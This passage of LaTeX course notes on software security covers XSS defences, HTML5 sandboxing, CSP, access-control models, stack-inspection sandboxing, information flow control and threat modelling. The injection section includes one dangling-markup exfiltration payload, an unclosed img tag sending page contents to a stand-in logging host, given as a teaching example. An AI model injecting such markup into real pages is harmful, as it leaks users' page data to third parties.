				\item Encoded characters are harmless
				\item Context-sensitive output encoding
					\subitem context determines which characters need to be encoded \textrightarrow \ library
			\end{itemize}
			\item Rich-text data
			\begin{itemize}
				\item Can not be combined with output encoding
				\item Sanitization: analyse contents and removes dangerous parts
			\end{itemize}
		\end{itemize}
	
		\item DOM-based XSS attacks
		\begin{itemize}
			\item Pages can also be modified on the client with JavaScript
			\item Client-side XSS vulnerabilities exist as well
			\item Occurs when legitimate code modifies the DOM in an insecure way
				\subitem by taking a piece of data from the URL (can be modified \textrightarrow \ untrusted)
			\item Elimination DOM-based XSS vulnerabilities
			\begin{itemize}
				\item use proper DOM APIs
				\item context-sensitive encoding of untrusted data
				\item client-side sanitization libraries
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{Advanced client-side attacks and defences}
	\begin{itemize}
		\item Alternative injection attack vectors
		\begin{itemize}
			\item Not only JS code can be injected through XSS: also HTML, CSS, ...
			\item Data exfiltration by inserting non-closed tags with URL
			\begin{itemize}
				\item \texttt{<img src=`https://ex.com/log.php?} can capture all following page contents until the next single quote '
			\end{itemize}
			\item Hijacking relative URLs by injecting a base tag
			\item Modifying form parameters (field values, destinations, ...)
			\item Prevention:
			\begin{itemize}
				\item Avoid confusion between data and code
				\item Context-sensitive output encoding works perfectly
				\item Sanitization is tricky, since the content seems harmless
			\end{itemize}
		\end{itemize}
	
		\item HTML5 sandboxing
		\begin{itemize}
			\item Origin-based context isolation
			\begin{itemize}
				\item leverages the Same-Origin Policy.
				\item isolates main application from untrusted parts
			\end{itemize}
			\item Sandbox attribute
			\begin{itemize}
				\item impose constraints on the behaviour of the content
				\item default: content has a unique origin, no script execution, no form submission, no external navigation, no pop-ups, no plug-in content, no full-screen capabilities
			\end{itemize}
		\end{itemize}
	
		\item Content Security Policy (CSP)
		\begin{itemize}
			\item Defines the intended behaviour of a page and prevents actions that violate these intentions
			\item You can specify where each type of resources can originate from
			\item \texttt{script-src `self';} prevents the execution of \textbf{remote or in-line scripts}
			\item Static content (images, fonts, media) will only be loaded by the browser if they are whitelisted
			\item Report feature: browser will send reports about detected violations
			\item Report-only mode: content is loaded but a report is sent when violation is detected
			\item Hashes and nonces: replace unsafe-inline
			\begin{itemize}
				\item Hash: calculated on contents of a script block
				\item Nonce: random and unique value
			\end{itemize}
		\end{itemize}
	\end{itemize}
	
	
	\chapter{Application-level Access Control}
	\section{Introduction}
	\subsection{Lampson's model}
	\begin{figure}[h]
		
\includegraphics[width=\linewidth]{assets/img/Lampson.png}
		\caption{Lampson's model}
	\end{figure}
	
	\begin{description}
		\item[Authentication] determining who is trying to do an action
		\item[Authorization] is this person allowed to do this action
		\item[Guard] intercept all actions
		\begin{itemize}
			\item make pass/drop decision (allowed/not allowed)
			\item maintain state: only access objects you created before, maximum $x$ actions, ...
			\item can be modelled as a security automaton
			\begin{itemize}
				\item set of states described by a number of types state variables
				\item transition relation described by predicates on the action and the local state
			\end{itemize}
			\item notation:
			\begin{itemize}
				\item actions are written as procedure invocations
				\item behaviour of the guard is specified by declaration of state variables and implementations of the action procedures
				\begin{itemize}
					\item preconditions determine acceptability of action (\texttt{requires})
					\item implementation body determines state update
				\end{itemize}
			\end{itemize}
		\end{itemize}
	\end{description}

	\section{Access Control Policies}
	\begin{itemize}
		\item \textbf{Policy} (what) vs \textbf{mechanism} (how)
		\begin{itemize}
			\item policies exist on multiple levels, no absolute notion of what is a policy or mechanism
		\end{itemize}
		\item \textbf{Discretionary} vs \textbf{mandatory} access control
		\begin{itemize}
			\item Discretionary: policy setting of the mechanism is delegated to users of the system
			\item Mandatory: policy setting of the mechanism is determined centrally, with little user configuration
		\end{itemize}
		\item \textbf{Policies} vs \textbf{models}
		\begin{itemize}
			\item Access control policy: specific rules \textrightarrow \, specific security automaton
			\item Access control model: class of policies with similar characteristics \textrightarrow \, design patterns
		\end{itemize}
	\end{itemize}

	\subsection{Discretionary access control (DAC)}
	\begin{itemize}
		\item Objective: creator-controlled sharing of information
		\item Key concepts:
		\begin{itemize}
			\item Protected system manages \textit{objects}: passive entities
			\item Objects accessed by \textit{operations} on them
			\item Object has an \textit{owner} \textrightarrow \, can grant permissions to other users
		\end{itemize}
		\item Variants:
		\begin{itemize}
			\item Transferable ownership of an object
			\item Delegate right to grant access (What if rights of someone are removed?)
			\item Constraints on revocation rights
			\item Possible to create subjects with lesser privileges
		\end{itemize}
	\end{itemize}

	\subsection{Lattice-based action control (LBAC)}
	\begin{itemize}
		\item Strict control of information flow
		\begin{itemize}
			\item Mandatory: policy is not configurable by users
			\item Lattice of security labels is given
			\item Object and users are tagged with security labels (user clearance)
			\item Enforce that
			\begin{itemize}
				\item users can only see information below their clearance
				\item information can only flow upwards, even in the presence of malware
			\end{itemize}
			\item Users are trusted, but the programs they run are not
		\end{itemize}
		\item Key concepts
		\begin{itemize}
			\item users initiate \textit{subjects} or \textit{sessions} \textrightarrow \, labelled on creation
			\item users of clearance $L$ can start subjects with any label $L' \leq L$.
			\item Enforced rules:
			\begin{itemize}
				\item Simple security property: subjects with label $L'$ can only read objects with label $L'' \leq L'$ (\textbf{no read up})
				\item *-property: subjects with label $L'$ can only write objects with label $L'' \geq L'$ (\textbf{no write down}) \textrightarrow \, prevent that information flows to lower levels
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{Role-based access control (RBAC)}
	\begin{itemize}
		\item Objective: manageable access control
		\item Mandatory,  but policy setting by some administrator
		\item Key concepts:
		\begin{itemize}
			\item Role:
			\begin{itemize}
				\item many-to-many relationship between users and permissions
				\item corresponds to a well-defined job or responsibility
			\end{itemize}
			\item when a user starts a session, he can activate some or all of his roles
			\item session has all the permission associated with the activated roles
		\end{itemize}
		\item Hierarchical roles: senior role inherits all permissions from junior roles
		\item Constraints:
		\begin{itemize}
			\item Static constraints: constraints on the assignment of users to roles (eg. static separation of duty, rules that cannot be assigned both to the same user)
			\item Dynamic constraints: constraints on the simultaneous activation of roles
		\end{itemize}
	\end{itemize}

	\section{Implementing Access Control in applications}
	\begin{itemize}
		\item Implementing access control = challenging:
		\begin{itemize}
			\item must be efficient
			\item must implement a possibly complicated evolving high-level policy
			\item must be secure
				\subitem complete mediation: all accesses must be checked
				\subitem should be possible to check that configured rules are adequate
		\end{itemize}
	\end{itemize}
	\subsection{Approach 1: Delegate to OS}
	\begin{itemize}
		\item map application resources to OS resources \textrightarrow \, OS access control can be used
	\end{itemize}
	\subsection{Approach 2: Application servers}
	\begin{itemize}
		\item application intercepts commands and performs access check
	\end{itemize}
	\subsection{Approach 3: Security middleware}
	\begin{itemize}
		\item reverse proxy (PEP) intercepts commands and performs access
		\item Policy Enforcement Point (PEP)
			\subitem consults PDP. If OK, redirect request to relevant service
		\item Policy Decision Point (PDP)
			\subitem implements the security automaton
		\item downside: not much information available at PEP, so no fine grained access control
	\end{itemize}
	\subsection{Approach 4: In the application}
	\begin{itemize}
		\item application performs explicit checks in the application code
		\item makes sense to externalize at least access decision logic to an authorization engine
		\item Very expressive, any policy you want
		\item Easy to oversee/forget
		\item Access control checks will be spread all over the code
		\item[\textrightarrow] Use security middleware where possible and use extra access checks in the application where needed
	\end{itemize}


	\chapter{Untrusted Software Security}
	\begin{itemize}
		\item[\textrightarrow] Techniques to limit the damage that malicious or buggy software could cause
		\begin{itemize}
			\item How to enforce security policies on such software?
		\end{itemize}
		\item Many applications/devices can be extended with new software components at run-time
		\begin{itemize}
			\item Anything with a general purpose OS
			\item Anything that supports a scripting language
			\item Anything that supports functionality extensions
		\end{itemize}
		\item Terminology and concepts
		\begin{itemize}
			\item \textit{Component}: piece of software that is a unit of deployment and third party composable
			\item A system can contain/aggregate multiple components, some of these are trusted more than others
			\item A system (\textit{framework}) can be extended at runtime with new components
		\end{itemize}
		\item We want to execute some untrusted component in the framework while maintaining some security properties of the entire system
		\subitem To do so, we enforce some \emph{policy} on the component, using some suitable \emph{mechanism}
		\begin{itemize}
			\item Example policies
			\begin{itemize}
				\item Standard access control: component can only use subset of functionality of the framework
				\item Stateful access control
				\item Liveness: component should eventually respond to all requests
				\item Information flow control: component should not leak confidential data
			\end{itemize}
			\item Example mechanisms
			\begin{itemize}
				\item Run-time monitoring/interception: guard monitors execution and reacts to violations
				\item Static analysis: try to determine if the code is OK by inspecting it
				\item Program rewriting / execution stream editing: modify the component/execution to make it secure (eg. change system calls)
			\end{itemize}
		\end{itemize}
		\item Limits of run-time monitoring
		\begin{itemize}
			\item Policy defines a \textbf{property} if it classifies program executions in bad and good ones
			\item Policy defines a \textbf{safety property} if bad executions never become good again
			\item[\textrightarrow] \emph{A property should hold for every single execution! (no averages, ...)}
		\end{itemize}
	\end{itemize}

	\section{Stack inspection based sandboxing}
	\subsection{Permissions}
	\begin{itemize}
		\item \textit{Permissions} encapsulate rights to access resources or perform operations
		\item Set semantics: one permission can imply (be a superset of) another one
		\item Developers can define new custom permissions
	\end{itemize}

	\subsection{Security Policy}
	\begin{itemize}
		\item \textit{Security policy} assigns permissions to each component \textrightarrow \, static permissions
		\item Implemented as a configurable function that maps \textit{evidence} to permissions
		\item Evidence is security-relevant information about the component:
		\begin{itemize}
			\item Where did it come from? Was it digitally signed and if so by whom?
		\end{itemize}
		\item When loading a component, the VM consults the security policy and remembers the permissions
	\end{itemize}

	\subsection{Stack inspection}
	\begin{itemize}
		\item Every resource access or sensitive operation is protected by a \texttt{demandPermission(P)} call for an appropriate permission P
		\begin{itemize}
			\item Through \textit{stack inspection} finds out what components are active
			\item Returns silently if all is OK, throws an exception otherwise
		\end{itemize}
		\item Stack inspection / stack walking
		\begin{itemize}
			\item Basic rule: access is allowed if all components above it on the call stack have the right permissions
			\item But too restrictive: eg. give partially trusted components the right to open marked windows without giving right to open arbitrary windows
			\item Solution: stack walk modifiers
			\begin{itemize}
				\item \texttt{enablePermission(P)}
				\begin{itemize}
					\item Means: don't check my callers for this permission, I take full responsibility
					\item Essential to implement \emph{controlled} access to resources for less trusted components
				\end{itemize}
				\item \texttt{disablePermission(P)}
				\begin{itemize}
					\item Means: don't grant me this permission, I don't need it
					\item Supports principle of least privilege
				\end{itemize}
			\end{itemize}
		\end{itemize}
	\end{itemize}
	
	\subsection{Discussion}
	\begin{itemize}
		\item Stack inspection based sandboxing: implemented in Java and .NET VMs
		\item Not widely used at its full power
		\begin{itemize}
			\item Complexity of policy setting?
			\item Known security weaknesses?
				\subitem no restrictions on reading/writing public fields across component boundaries
		\end{itemize}
		\item Most common sandboxing techniques:
		\begin{itemize}
			\item No sandboxing
				\subitem script inclusion, device drivers, ...
			\item OS process based sandboxing
				\subitem run a program under a lower integrity level or low-privileged user-id
		\end{itemize}
	\end{itemize}

	\section{Information flow control}
	\begin{itemize}
		\item Runtime monitoring can only enforce safety properties
		\item But some interesting and relevant policies are not safety properties
		\subitem such as information flow control
		\item \textbf{Information flow control}
		\begin{itemize}
			\item class of technical countermeasures that try to enforce that software cannot leak information (not even indirectly)
			\item all input channels are labelled private/public
			\item also all output channels are labelled
				\subitem public: anyone can see
				\subitem private: only trusted persons can see
			\item bad flows: from a private input to a public output
		\end{itemize}
		\item Non-interference
		\begin{itemize}
			\item There are no 2 runs of the program that:
			\begin{itemize}
				\item receive the same public inputs (but different private inputs)
				\item produce different public outputs
			\end{itemize}
			\item Clearly not a safety property (not even a property!)
		\end{itemize}
		\item Enforcement mechanisms
		\begin{itemize}
			\item Static, compile-time techniques
			\begin{itemize}
				\item classify (=type) variables as either high or low
				\item forbid assignments from high expressions/contexts to low variables
				\item in practice: quite restrictive, labour intensive, only useful in high-security settings
			\end{itemize}
			\item Run-time techniques
			\begin{itemize}
				\item approximate non-interference with a safety property
				\item label all data entering the program with an appropriate security level
				\item propagate these levels throughout the computation
				\item block output of high-labelled data to a low output channel
				\item in practice: several mature and practical systems, but all with remaining holes. Some sound systems, but too expensive
			\end{itemize}
			\item Alternative run-time technique: secure multi-execution
			\begin{itemize}
				\item run the program twice: a high and a low copy
				\item replace high inputs by default values for the low copy
				\item suppress high outputs in the low copy and low outputs in the high copy
				\item in practice: first fully sound and fully precise mechanism, but obviously expensive (worst case double execution time/memory usage)
			\end{itemize}
		\end{itemize}
		\item If we are sandboxing code, it is in principle possible to enforce more expressive policies than safety properties because we can reason about alternative executions
	\end{itemize}

	\chapter{Security throughout the Software Engineering process}
	\section{Security throughout the software cycle}
	\begin{itemize}
		\item Vulnerabilities can enter a system in any phase of the SW life cycle
		\item Important to identify vulnerabilities and use countermeasures \underline{at each level}
		\item But such countermeasures should not require a complete redesign of the SW development life cycle
		\item Touchpoints
		\begin{itemize}
			\item Measure impact of additional activities at a certain phase
			\item Empirical knowledge of how to do things well
		\end{itemize}
		\item Testing security $\neq$ testing functionality
		\begin{itemize}
			\item Test for things that should not happen, unexpected behaviour
			\item Use of abuse cases alongside use cases
			\item Hire a bunch of hackers (red team) to find vulnerabilities
		\end{itemize}
	\end{itemize}

	\section{Threat modelling}
	\begin{itemize}
		\item Activity early in the software development life cycle
		\item Primary goal: get a good view on possible threats to the system being developed
		\item Can be done on various levels of abstraction (system level/application level)
		\item Repeatable process: end up with the same results if you do it multiple times
			\subitem not just taking a random look at the project
	\end{itemize}
	\begin{itemize}
		\item Threats categories (\textbf{STRIDE})
		\begin{itemize}
			\item \textbf{S}poofing
			\item \textbf{T}ampering with data
			\item \textbf{R}epudiation{\scriptsize: user denies to have performed an action without other parties having any way to prove otherwise}
			\item \textbf{I}nformation disclosure
			\item \textbf{D}enial of service
			\item \textbf{E}levation of privilege
		\end{itemize}
		\item Discovering threats needs good understanding of assets and threat agents
	\end{itemize}
	\subsection{Threat modelling process}
	\begin{enumerate}
		\item Define use scenarios
		\begin{itemize}
			\item How will the system be used?
			\item Bound the threat modelling scope: What are the things we want to protect against?
		\end{itemize}
		\item List external dependencies
		\begin{itemize}
			\item What is the infrastructure you rely on? (OS, browser, ...)
			\item What will you build yourself and what do you depend on? \textrightarrow \, document these dependencies
		\end{itemize}
		\item Define security assumptions
		\begin{itemize}
			\item What security guarantees do you expect from the external dependencies?
			\item How should the things you depend on be configured?
		\end{itemize}
		\item Create external security notes
		\begin{itemize}
			\item Document security-relevant information for people managing the infrastructure/users of the application
			\item Threat modelling should not be done before Requirements Engineering: you need an idea about what the application will look like
		\end{itemize}
		\item Model the application
		\begin{itemize}
			\item Modelled using dataflow diagrams
			\begin{itemize}
				\item external entities, processes, data stores, data flow, privilege boundaries
				\item privilege boundaries
				\begin{itemize}
					\item different authorities/privileges
					\item places where attacks might start (\emph{attack surfaces})
				\end{itemize}
			\end{itemize}
			\item Model what you build yourself, not what you depend on
			\item Model should fit on an A4 page: give overview, refinement in model of subsystem
			
		\end{itemize}
		\item Determine threat types (using STRIDE)
		\item Identify threats
		\begin{itemize}
			\item Identify assets
				\subitem all DataFlow Diagram (DFD) elements are considered an asset
			\item For each kind of element you are forced to consider a fixed set of threat types
		\end{itemize}
		\item Determine risk
		\begin{itemize}
			\item For each identified threat: inspect how risky the threat is
			\item Subjective numerical estimation techniques \textrightarrow \, abandoned
			\item Objective analysis based on decision trees \textrightarrow \, risk level (low number = high risk)
		\end{itemize}
		\item Plan mitigations
		\begin{itemize}
			\item Do nothing (external security note!)
			\item Remove the feature associated with the threat
			\item Turn feature of by default, warn users of threat when enabling it
				\subitem But users don't pay attention to security warnings (dancing pigs syndrome)
			\item Counter the threat with technology
		\end{itemize}
	\end{enumerate}

	\section{Principles, patterns and guidelines}
	\subsection{Principles}
	\begin{itemize}
		\item[\textrightarrow] Very generic guidelines, applicable throughout the development life cycle
		\item Simplicity
		\begin{itemize}
			\item easier to get right, easier to understand
			\item minimize the Trusted Computing Base (TCB)
		\end{itemize}
		\item Open design
		\begin{itemize}
			\item no security by obscurity
			\item aim for security even if your adversary knows your countermeasures
		\end{itemize}
		\item Separation of privilege
		\begin{itemize}
			\item address insider threats: protection mechanism that requires multiple people to act together to perform a sensitive operation
		\end{itemize}
		\item Least privilege
			\subitem any part of the system should not have more authority than necessary for its function
		\item Psychological acceptability
			\subitem if it isn't psychological acceptable, it doesn't improve security
	\end{itemize}
	
	\subsection{Patterns}
	\begin{itemize}
		\item[\textrightarrow] Reusable solutions to security problems at the architectural or design level
	\end{itemize}
	\paragraph{Architectural security patterns}
	\begin{itemize}
		\item Compartmentalization
			\subitem architect the system such that security breaches are contained
		\item Minimize attack surface
			 \subitem reduce amount of interfaces and information accessible to adversaries
	 	\item Complete mediation
	 		\subitem \underline{all accesses} pass through security validation
	\end{itemize}
	\paragraph{Design patterns for security}
	\begin{itemize}
		\item Fail-safe defaults
			\subitem use white-listing, not black-listing for input validation
		\item Role-based access
			\subitem decouple user identities from privileges
		\item Limited view
			\subitem only show what a user in his current role can do
	\end{itemize}

	\subsection{Coding guidelines}
	\begin{itemize}
		\item[\textrightarrow] Provide guidance on how to code (or not to code) in a specific programming language
		\item only relevant from implementation level on
		\item static analysis tools to check coding guidelines and obvious vulnerabilities
	\end{itemize}

	\chapter{Conclusion}
	\begin{itemize}
		\item We expect too much of developers!
		\begin{itemize}
			\item To know if a piece of C code is secure: requires understanding of programming language, details of the compiler, runtime library implementations, OS, details of the processor and other hardware
			\item The same holds for web development
		\end{itemize}
		\item How to deal with it?
		\begin{itemize}
			\item Coding guidelines and tooling (static analysis)
			\item Ad-hoc countermeasures in compiler/OS/middleware/frameworks
				\subitem stack canaries, anti-CSRF tokens, ...
			\item[\textrightarrow] substantial software security improvement, but not the long-term solution
		\end{itemize}
		\item The way forward
		\begin{itemize}
			\item Programming language support: express security objectives within code
			\item Compiler support: can compiler provide complete protection against certain classes of attacks?
			\item OS/hardware support: can we reduce Trusted Computing Base?
		\end{itemize}
	\end{itemize}
\end{document}

